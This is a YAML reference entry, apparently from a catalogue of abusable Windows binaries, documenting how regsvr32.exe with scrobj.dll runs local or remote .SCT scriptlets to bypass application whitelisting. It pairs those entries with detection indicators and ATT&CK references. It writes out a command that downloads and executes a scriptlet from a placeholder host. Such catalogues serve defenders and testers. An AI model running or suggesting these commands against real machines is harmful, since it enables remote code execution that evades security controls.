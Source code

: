 ```yaml
---
name: Regsvr32.exe
description: Used by Windows to register dlls
functions:
  execute:
    - description: Execute the specified remote .SCT script with scrobj.dll.
      code: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
      mitreid: T1117
      mitrelink: https://attack.mitre.org/wiki/Technique/T1117
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code from remote scriptlet, bypass Application whitelisting
    - description: Execute the specified local .SCT script with scrobj.dll.
      code: regsvr32.exe /s /u /i:file.sct scrobj.dll
      mitreid: T1117
      mitrelink: https://attack.mitre.org/wiki/Technique/T1117
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code from scriptlet, bypass Application whitelisting
  awl bypass:
    - description: Execute the specified remote .SCT script with scrobj.dll.
      code: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
      mitreid: T1117
      mitrelink: https://attack.mitre.org/wiki/Technique/T1117
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code from remote scriptlet, bypass Application whitelisting
    - description: Execute the specified local .SCT script with scrobj.dll.
      code: regsvr32.exe /s /u /i:file.sct scrobj.dll
      mitreid: T1117
      mitrelink: https://attack.mitre.org/wiki/Technique/T1117
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code from scriptlet, bypass Application whitelisting
resources:
    - resource: https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
    - resource: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
    - resource: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1117/T1117.md
fullpath:
    - path: C:\Windows\System32\regsvr32.exe
    - path: C:\Windows\SysWOW64\regsvr32.exe
detection:
  - IOC: regsvr32.exe getting files from Internet
  - IOC: regsvr32.exe executing scriptlet files
acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

